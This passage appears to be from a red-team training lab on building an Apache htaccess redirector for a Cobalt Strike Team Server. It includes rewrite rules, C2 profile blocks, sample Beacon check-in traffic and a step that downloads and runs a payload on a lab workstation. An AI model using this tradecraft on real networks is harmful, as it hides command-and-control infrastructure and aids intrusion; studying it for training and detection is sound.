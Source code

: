 The final two directives to cover here are `%{REQUEST_URI}` and `%{QUERY_STRING}`.

The request URI is the portion that comes directly after the host IP/hostname, e.g. http://localhost/**index.php**.  The query string is anything that comes after the URI, e.g. http://localhost/index.php**?id=1**.

These in combination are also great for only proxying traffic that match our C2 profile.  Since we're using the `webbug_getonly` profile, we know what those will be for our Beacon.  The URI for GETs is `/___utm.gif` and for POSTs is `/__utm.gif` (identical apart from the number of prepended underscores).

Start off with the following:

```
RewriteEngine on

RewriteCond %{REQUEST_URI} win-payload [NC]
RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]

RewriteCond %{REQUEST_URI} __utm.gif [NC]
RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]
```
  

The first rule will allow the target to download the hosted payload, and the second rule will proxy the URI for the C2 traffic.  Open the console to **WKSTN-1**, launch Edge and navigate to **https://10.10.5.39/win-payload**.  Ignore the SSL warning (because we're using a self-signed certificate) to download the payload, then run it.

All being well, you will get a Beacon that you can issue tasks to and get the results.

We can get even more specific in the RewriteCond directive, because currently, any request that contains `__utm.gif` will get proxied.  We can go back to the C2 profile and look at the other parameters that are included in the requests.  The following is from the `http-get` block in `webbug_getonly.profile`.

```
set uri "/___utm.gif";
client {
        parameter "utmac" "UA-2202604-2";
        parameter "utmcn" "1";
        parameter "utmcs" "ISO-8859-1";
        parameter "utmsr" "1280x1024";
        parameter "utmsc" "32-bit";
        parameter "utmul" "en-US";

        metadata {
                base64url;
                prepend "__utma";
                parameter "utmcc";
        }
}
```

  

Each parameter gets added to the URI in the order in which they're defined.  So the above would be `___utm.gif?utmac=UA-2202604-2&utmcn=1` and so on.  Here's an example of a simple check-in request and an empty response (i.e. no new jobs were pending).

```
GET /___utm.gif?utmac=UA-2202604-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utmaKFgztfuYXyCS1e0_9U_JbX5a4wIKqwoOGPEj4gMUCWMstv_UHlWTpOEav3Wqxkgz30RFJUobM_-c7ECCgPdTQzOBe8djfQ-v9epBzMnWhYf1s4CrmfikMPMipTM8iLscRveV-oujpScoiLPDUgrFJONy-m5V9yT0sBZIwsAq_3g HTTP/1.1
Host: localhost:8443
Accept: */*
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.0; WOW64; Trident/5.0; msn OptimizedIE8;ENUS)
Cache-Control: no-cache
X-Forwarded-For: 10.10.120.106
X-Forwarded-Host: 10.10.5.18
X-Forwarded-Server: 10.10.5.18
Connection: close

HTTP/1.1 200 OK
Date: Wed, 3 Nov 2021 13:41:22 GMT
Content-Type: image/gif
Content-Length: 40

GIF89a............!......,...........D.;
```
  

Adding another RewriteCond rule underneath the existing one turns them into an AND condition.  Where the request URI must contain `__utm.gif` and the query string must match what we expect as per the C2 profile.  We can't predict what the `utmcc` parameter value will be since it's metadata collected from on the compromised endpoint, but we do know it will always begin with `__utma`.

```
RewriteCond %{REQUEST_URI} __utm.gif [NC]
RewriteCond %{QUERY_STRING} utmac=UA-2202604-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utma [NC]
RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]
```
  

You may notice at this point that even though the Beacon is still checking in (if not you've made a mistake that is causing the traffic to drop), but it will no longer respond to commands.  This is because the response as defined in the `http-post` block is slightly different, so we need another rewrite condition to account for it.

```
set uri "/__utm.gif";                                                                                                                                          
set verb "GET";                                                                                                                                                
client {                                                                                                                                                       
        id {                                                                                                                                                   
                prepend "UA-220";                                                                                                                              
                append "-2";                                                                                                                                   
                parameter "utmac";                                                                                                                             
        }                                                                                                                                                      
                                                                                                                                                               
        parameter "utmcn" "1";                                                                                                                                 
        parameter "utmcs" "ISO-8859-1";                                                                                                                        
        parameter "utmsr" "1280x1024";                                                                                                                         
        parameter "utmsc" "32-bit";                                                                                                                            
        parameter "utmul" "en-US";

        output {
                base64url;
                prepend "__utma"; 
                parameter "utmcc";
        }
}
```
  

The above translates into a request which looks like this:

```
GET /__utm.gif?utmac=UA-2201937987662-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utmaAAAAMM2E4ZL8UaQNTYkmpPhRcf5VIUVFm2Py10lmXl1BpewAaMKwh2_rnRjgK1vvUZ-inA HTTP/1.1
```
  

The data portion is at the end of the request (the same place the metadata is placed in the http-get block).  However, the metadata is not sent in a "post", only the Beacon's ID is.  In this case, it's embedded here: utmac=UA-220**1937987662**-2.  Since this is different for each Beacon, it has to be wildcarded - easy enough to do with a regular expression:

```
RewriteCond %{QUERY_STRING} utmac=UA-220(.*)-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utma [NC]
```
  
  Remember to add the **[OR]** flag to the previous rewrite condition.

You can also add any "catch all" rules that you want at the very bottom.  If none of the rewrite conditions are satisfied, it will process the final rule as a last resort.  My htaccess file now looks like this, and my Beacon is fully functional:

```
RewriteEngine on

RewriteCond %{REQUEST_URI} win-payload [NC]
RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]

RewriteCond %{REQUEST_URI} __utm.gif [NC]
RewriteCond %{QUERY_STRING} utmac=UA-2202604-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utma [NC,OR]
RewriteCond %{QUERY_STRING} utmac=UA-220(.*)-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utma [NC]                                                                       
RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]

RewriteRule .* - [F]
```

  

The astute will notice that the two QUERY_STRING rewrite conditions match so closely, that you can actually remove the original and just keep the one with the wildcard in the utmac parameter.  However, since C2 profiles can use drastically different request URIs and query strings in their http-get and http-post blocks, it was worth working through the process of looking at both.

The whole idea behind this is to protect access to our Team Server.  We only want HTTP traffic hitting the Team Server that matches known C2 traffic (or payload download requests).  Have a play with curl/wget and see if you can leak any information from the Team Server.  If you can, try and lock down the htaccess rules more.